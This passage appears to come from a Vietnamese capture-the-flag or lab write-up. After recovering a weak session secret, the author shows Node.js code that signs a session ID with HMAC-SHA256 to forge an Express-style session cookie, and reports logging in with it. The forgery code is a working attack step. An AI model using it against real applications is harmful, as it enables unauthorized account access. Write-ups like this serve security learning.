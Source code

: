 Khi chạy thì ta có kết quả secret là 30918></40000;>
                                
![image](./images/image91.png)

Từ file session và secret mình có thể tạo ra cookie để login vào bằng hàm sign đã xài ở trên
    
```js
var crypto = require('crypto');
function sign (val, secret){
    if ('string' != typeof val) throw new TypeError("Cookie value must be provided as a string.");
    if (null == secret) throw new TypeError("Secret key must be provided.");
    return val + '.' + crypto
      .createHmac('sha256', secret)
      .update(val)
      .digest('base64')
      .replace(/\=+$/, '');
};
data="hZ-cQfCYf55YkYHaJJQFh_I-QviU-333"
secret="30918"
console.log("s:"+sign(data, secret))    
```
    
![image](./images/image92.png)

Và boom khi thay vào thì mình đã đăng nhập được
    
![image](./images/image93.png)
